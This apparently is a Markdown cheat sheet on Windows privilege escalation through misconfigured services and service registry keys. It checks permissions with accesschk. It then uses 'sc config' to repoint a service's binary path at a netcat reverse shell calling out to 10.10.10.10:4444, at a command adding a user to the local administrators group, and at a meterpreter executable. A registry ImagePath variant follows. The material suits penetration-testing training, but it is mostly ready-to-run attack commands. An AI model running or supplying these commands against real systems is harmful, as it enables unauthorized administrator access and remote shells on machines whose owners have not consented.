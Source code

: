 # Service Exploit

**DOWNLOAD ACCESSCHK.EXE**
[http://live.sysinternals.com/accesschk.exe](http:/live.sysinternals.com/accesschk.exe)

## Check if User can modify a service

```powershell
accesschk.exe -uwcqv "Authenticated Users" * /accepteula
accesschk.exe -uwcqv %USERNAME% * /accepteula
accesschk.exe -uwcqv "BUILTIN\Users" * /accepteula 2>nul
```

If the group `Authenticated users` has `SERVICE_ALL_ACCESS` in a service, then it can modify the binary that is being executed by the service. 

To modify it and execute netcat you can do:

```powershell
sc config <Service_Name> binpath= "C:\nc.exe -nv 127.0.0.1 9988 -e C:\WINDOWS\System32\cmd.exe"
sc config <Service_Name> binpath= "net localgroup administrators username /add"
sc config <Service_Name> binpath= "cmd \c C:\Users\nc.exe 10.10.10.10 4444 -e cmd.exe"
sc config SSDPSRV binpath= "C:\Documents and Settings\PEPE\meter443.exe"
```

## Insecure Service Permissions

```powershell
# Check the permissions on a service
accesschk.exe /accepteula -uwcqv user <SERVICE NAME>
accesschk.exe /accepteula -uwcqv user daclsvc

# Check what the service does
sc qc daclsvc

# Check the status (RUNNING or STOPPED)
sc query daclsvc
```

If you can change config, the easies way to privesc is change BINARY PATH to the location of a reverse shell EXE.

```powershell
# Change the binary path
sc config daclsvc binpath= "\"C:\users\bob\reverse.exe\""
(NOTE THE SPACE after the "=" sign)

Start a netcat listener.

# Start the service or reboot the system
net start daclsvc
shutdown /r
```

## Weak Registry Permissions

```powershell
In WinPEAS shows as:
[?] Check if you can modify the registry of a service
 HKLM\system\currentcontrollerset\services\regsvc

# Check permission using Powershell
powershell -exec bypass

.\accesschk.exe /accepteula -uvwqk HKLM\system\currentcontrollerset\services\regsvc
RW NT AUTHORITY\SYSTEM
RW BUILTIN\Administrators
RW NT AUTHORITY\INTERACTIVE

It is executed as ADMINISTRATOR. We can escalate privileges.

# Verify if we can start/stop the service
.\accesschk.exe /accepteula -ucqv user regsvc
SERVICE_START
SERVICE_STOP

# Check the current values in the register
reg query HKLM\system\currentcontrollerset\services\regsvc
Look for ImagePath location and upload a reverse shell to where it is pointing.

# Start the service
net start regsvc
```
